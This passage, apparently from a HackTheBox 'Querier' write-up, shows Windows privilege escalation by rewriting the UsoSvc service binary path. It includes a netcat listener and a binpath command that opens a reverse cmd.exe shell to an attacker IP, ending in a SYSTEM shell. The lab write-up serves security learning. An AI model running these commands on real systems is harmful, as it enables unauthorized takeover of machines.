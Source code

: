 This confirms that there may be a Binary path that we can control, to make sure that we can start and stop this service I ran the following:

    PS C:\Users\mssql-svc> C:\Windows\system32\sc.exe query UsoSvc
	C:\Windows\system32\sc.exe query UsoSvc
	
	SERVICE_NAME: UsoSvc 
	        TYPE               : 20  WIN32_SHARE_PROCESS  
	        STATE              : 4  RUNNING 
	                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
	        WIN32_EXIT_CODE    : 0  (0x0)
	        SERVICE_EXIT_CODE  : 0  (0x0)
	        CHECKPOINT         : 0x0
	        WAIT_HINT          : 0x0

This returns that the service is STOPPABLE, it looks like we are in business. 

## Exploitation

Time to get malicious with this service, before I got started I wanted to set up a listener ready to catch a shell later down the line:

    sudo nc -nvlp 9002

I already placed nc64.exe onto the machine during an earlier stage, so I can simply use this again. As highlighted by PowerUp as the low level user we are able to edit the Binary Path of this service, we can replace the command it's currently executing with a command to start a shell on our attacker machine, as this service is running as the system there is a chance this will execute our command as an elevated user.

	PS C:\Users\mssql-svc> C:\Windows\system32\sc.exe config UsoSvc binpath="C:\Reports\nc64.exe 10.10.14.20 9002 -e cmd.exe"

This returned a success message, so with the listener running all that was left to do was stop the service:

	PS C:\Users\mssql-svc> C:\Windows\system32\sc.exe stop UsoSvc

Then start it again:

	PS C:\Users\mssql-svc> C:\Windows\system32\sc.exe start UsoSvc

Checking the listener I had a shell as nt authority\system.

![authsystem](/assets/images/HackTheBox/Querier/root.png)

# Summary

As mentioned at the start, this box taught me a thing or two about enumerating and attacking MS SQL, using binwalk to view archives and embedded files in a file and reinforced the idea of exploiting Binary Paths to execute commands of our choice. Thanks for reading and happy hacking!